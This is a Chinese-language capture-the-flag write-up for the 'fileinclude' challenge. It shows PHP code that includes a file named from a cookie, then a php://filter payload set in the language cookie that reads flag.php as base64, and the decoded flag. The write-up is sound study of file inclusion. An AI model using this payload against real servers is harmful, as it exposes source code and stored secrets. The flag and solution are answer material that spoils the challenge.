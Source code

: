 #  T2 fileinclude

> 题目：攻防世界 fileinclude

__0x00 审题__

打开题目如下，要寻找flag.php，与fileinclude的题目相关，考虑php伪协议读取文件

![image](https://github.com/uicciu/image/blob/main/fileinclude.png)

__0x01 操作__

打开源代码,看到一处长得就很重要的部位

```php
<?php
if( !ini_get('display_errors') ) {
  ini_set('display_errors', 'On');
  }
error_reporting(E_ALL);
$lan = $_COOKIE['language'];
if(!$lan)
{
	@setcookie("language","english");
	@include("english.php");
}
else
{
	@include($lan.".php");
}
$x=file_get_contents('index.php');
echo $x;
?>
```

猜测：第一个if好像没啥用，先不知道他什么意思，$lan经历一次赋值，再经历一个if判断，感觉应该令其进行else的部分，以PHP的格式输出$lan中的内容，但是问题是最后输出$x中内容（即index.php中的内容）

接下来目标：展示flag.php中的内容

> $_COOKIE()

example:

```php
<?php
echo 'Hello ' . htmlspecialchars($_COOKIE["name"]) . '!';
?>
```

Assuming the "name" cookie has been set earlier

The above example will output something similar to:

```
Hello Hannes!
```

所以我们需要对language进行赋值

因为一直是对COOKIE进行操作，所以F12调出工具用自行下载的HackBar构造payload

language=php://filter/read=convert.base64-encode/resource=/var/www/html/flag

得到如下一段密码：

```
PD9waHANCiRmbGFnPSJjeWJlcnBlYWNlezRkZTFlYzUyZjliZmRhMDZkMmE5NTM2MzE3ZDdmY2JkfSI7DQo/Pg== 
```

因为后面有两个等号补位，猜测其为Base64编码，用[Base64解码工具解码](https://base64.us/)

__0x02 答案__

解码结束，得到flag

```php
<?php
$flag="cyberpeace{4de1ec52f9bfda06d2a9536317d7fcbd}";
?>
```

__0x03 总结__

1. 应用到了文件包含，PHPfilter的伪协议读取文件，以及base64解码
2. 何为文件包含？有一个问题，为何'@include($lan.".php")' 存在漏洞，即明明echo内容为index.php但是最终得到flag.php，攻防世界官方WP中给出 _源代码中看到` @include($lan.".php"); `，可知此处存在文件包含_ 目前还不知道如何看出
3. 同时可以通过BurpSuit抓包更改Cookie
 

